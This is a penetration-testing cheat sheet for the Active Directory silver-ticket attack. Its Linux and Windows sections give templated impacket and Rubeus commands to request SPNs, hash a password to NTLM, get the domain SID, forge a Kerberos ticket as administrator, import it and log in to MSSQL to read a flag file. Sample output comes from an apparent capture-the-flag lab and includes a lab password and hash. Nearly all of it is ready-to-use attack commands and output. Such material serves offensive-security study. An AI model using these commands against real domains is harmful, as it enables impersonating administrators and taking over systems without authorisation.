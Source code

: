 ```yaml
---
title: "Silver Ticket"
date: 2024-7-30
tags: ["Pass-The-Ticket", "SID", "Rubeus", "Ticket Granting Ticket", "Silver Ticket", "Sidhistory", "Domain Controller", "Active Directory", "Windows", "GetUserSPNs"]
---
```


### Silver Ticket Attack

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Get service principle name (SPN) \[optional\]

```console
sudo ntpdate -s <DC> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -request -k
```

```console
# If NTLM auth is disabled
sudo ntpdate -s <DC> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-host <DC> -request -k
```

#### 2. Generate NTLM

```console
iconv -f ASCII -t UTF-16LE <(printf '<PASSWORD>') | openssl dgst -md4
```

```console {class="sample-code"}
$ iconv -f ASCII -t UTF-16LE <(printf 'REGGIE1234ronnie') | openssl dgst -md4 
MD4(stdin)= 1443ec19da4dac4ffc953bca1b57b4cf
```

#### 3. Get domain SID

```console
sudo ntpdate -s <DC> && impacket-getPac -targetUser administrator '<DOMAIN>/<USER>:<PASSWORD>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.sequel.htb && impacket-getPac -targetUser administrator 'sequel.htb/sql_svc:REGGIE1234ronnie'
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

KERB_VALIDATION_INFO 
LogonTime:                      
    dwLowDateTime:                   4131845666 
    dwHighDateTime:                  31133135 

...[SNIP]...
 
Domain SID: S-1-5-21-4078382237-1492182817-2568127209

 0000   10 00 00 00 43 04 A9 EA  FD 5C DC 66 5C CE D0 B2   ....C....\.f\...
```

#### 4. Generate Silver Ticket

```console
impacket-ticketer -nthash <HASH> -domain-sid <SID> -domain <DOMAIN> -dc-ip <DC> -spn anything/<DC> administrator
```

```console {class="sample-code"}
$ impacket-ticketer -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn anything/dc.sequel.htb administrator
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sequel.htb/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in administrator.ccache
```

#### 5. Import ticket

```console
export KRB5CCNAME=administrator.ccache
```

```console {class="sample-code"}
$ export KRB5CCNAME=administrator.ccache
```

#### 6. Check

```console
klist
```

```console {class="sample-code"}
$ klist
Ticket cache: FILE:administrator.ccache
Default principal: administrator@SEQUEL.HTB

Valid starting     Expires            Service principal
09/25/24 07:55:27  09/23/34 07:55:27  anything/dc.sequel.htb@SEQUEL.HTB
        renew until 09/23/34 07:55:27
```

#### 7. Access service

```console
# For example: mssql
impacket-mssqlclient -k <DC>
```

```console {class="sample-code"}
$ impacket-mssqlclient -k dc.sequel.htb                                                
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sequel\Administrator  dbo@master)> SELECT * FROM OPENROWSET(BULK N'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) AS Contents
BulkColumn                                
---------------------------------------   
b'2186a912c7f240246fd2c2b04651f9b4\r\n'
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Get service principle name (SPN) \[optional\]

```console
.\rubeus.exe kerberoast /domain:<DOMAIN> /dc:<DC> /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>' /nowrap
```

#### 2. Generate NTLM

```console
.\rubeus.exe hash /password:'<PASSWORD>'
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> .\rubeus.exe hash /password:'REGGIE1234ronnie'

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : REGGIE1234ronnie
[*]       rc4_hmac             : 1443EC19DA4DAC4FFC953BCA1B57B4CF

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```

#### 3. Get domain SID

#### 3a. Locally

```console
import-module activedirectory
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> import-module activedirectory
```

```console
Get-ADDomain | fl DomainSID
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> Get-ADDomain | fl DomainSID

DomainSID : S-1-5-21-4078382237-1492182817-2568127209
```

#### 3b. Remotely

```console
# Install ldp.exe (Windows 11)
Settings > System > Optional Features > More Windows Features and add 'Active Directory Lightweight Directory Services'
```

```console
# Bind > Bind with credentials
ldp.exe
```

```console
# Browse > Search
BaseDN: DC=<EXAMPLE>,DC=<COM>
Filter: (objectclass=User)
```

#### 4. Generate silver ticket

```console
.\rubeus.exe silver /domain:<DOMAIN> /dc:<DC> /sid:<SID> /rc4:<HASH> /user:administrator /service:anything/<DC> /nowrap /ptt
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> .\rubeus.exe silver /domain:sequel.htb /dc:dc.sequel.htb /sid:S-1-5-21-4078382237-1492182817-2568127209 /rc4:1443EC19DA4DAC4FFC953BCA1B57B4CF /user:administrator /service:anything/dc.sequel.htb /nowrap /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Build TGS

[*] Building PAC

[*] Domain         : SEQUEL.HTB (SEQUEL)
[*] SID            : S-1-5-21-4078382237-1492182817-2568127209
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : 1443EC19DA4DAC4FFC953BCA1B57B4CF
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 1443EC19DA4DAC4FFC953BCA1B57B4CF
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : anything
[*] Target         : dc.sequel.htb

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGS for 'administrator' to 'anything/dc.sequel.htb'

[*] AuthTime       : 9/24/2024 5:06:04 PM
[*] StartTime      : 9/24/2024 5:06:04 PM
[*] EndTime        : 9/25/2024 3:06:04 AM
[*] RenewTill      : 10/1/2024 5:06:04 PM

[*] base64(ticket.kirbi):

      doIFUTCCBU ...[SNIP]... F1ZWwuaHRi


[+] Ticket successfully imported!
```

#### 5. Check

```console
klist
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> klist

Current LogonId is 0:0x1293866

Cached Tickets: (1)

#0>     Client: administrator @ SEQUEL.HTB
        Server: anything/dc.sequel.htb @ SEQUEL.HTB
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/24/2024 17:06:04 (local)
        End Time:   9/25/2024 3:06:04 (local)
        Renew Time: 10/1/2024 17:06:04 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

{{< /tabcontent >}}
